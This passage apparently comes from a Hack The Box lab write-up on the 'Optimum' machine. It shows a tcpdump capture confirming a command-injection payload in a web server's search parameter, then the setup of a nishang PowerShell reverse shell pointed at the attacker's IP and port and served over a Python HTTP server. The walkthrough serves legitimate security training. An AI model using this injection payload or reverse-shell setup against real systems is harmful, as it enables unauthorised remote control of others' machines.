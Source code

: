 ```sh
┌─[george@parrot]─[~/HTB/boxes/optimum]
└──╼ $ sudo tcpdump -i tun0
[sudo] password for george:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:57:56.181643 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [S], seq 1083679307, win 64240, options [mss 1460,sackOK,TS val 516027120 ecr 0,nop,wscale 7], length 0
14:57:56.383753 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [S.], seq 1213840787, ack 1083679308, win 8192, options [mss 1358,nop,wscale 8,sackOK,TS val 73598 ecr 516027120], length 0
14:57:56.383791 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 516027323 ecr 73598], length 0
14:57:56.384590 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [P.], seq 1:449, ack 1, win 502, options [nop,nop,TS val 516027323 ecr 73598], length 448: HTTP: GET /?search=%00{.{exec|ping+10.10.16.7}.} HTTP/1.1
14:57:56.863005 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [P.], seq 1:194, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 193: HTTP: HTTP/1.1 200 OK
14:57:56.863067 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 194, win 501, options [nop,nop,TS val 516027802 ecr 73644], length 0
14:57:57.064227 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [.], seq 194:1540, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 1346: HTTP
14:57:57.064278 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 1540, win 501, options [nop,nop,TS val 516028003 ecr 73644], length 0
14:57:57.064322 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [P.], seq 1540:1654, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 114: HTTP
14:57:57.064332 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 1654, win 501, options [nop,nop,TS val 516028003 ecr 73644], length 0
14:57:57.064393 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [P.], seq 1654:1962, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 308: HTTP
14:57:57.064405 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 1962, win 499, options [nop,nop,TS val 516028003 ecr 73644], length 0
14:57:57.064429 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [F.], seq 1962, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 0
14:57:57.067712 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [F.], seq 449, ack 1963, win 501, options [nop,nop,TS val 516028006 ecr 73644], length 0
```
### Initial foothold

I will copy [nishang](https://github.com/samratashok/nishang) shell `Invoke-PowerShellTcp.ps1` to my current directory.

```sh
┌─[george@parrot]─[~/HTB/boxes/optimum]
└──╼ $ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```
and change the below line to match my IP and port

```sh
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.7 -Port 9001
```
Then I will change the file name to a simple `shell.ps1` and host it using `python3`

```sh
┌─[george@parrot]─[~/HTB/boxes/optimum/www]
└──╼ $ sudo python3 -m http.server 80
[sudo] password for george:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
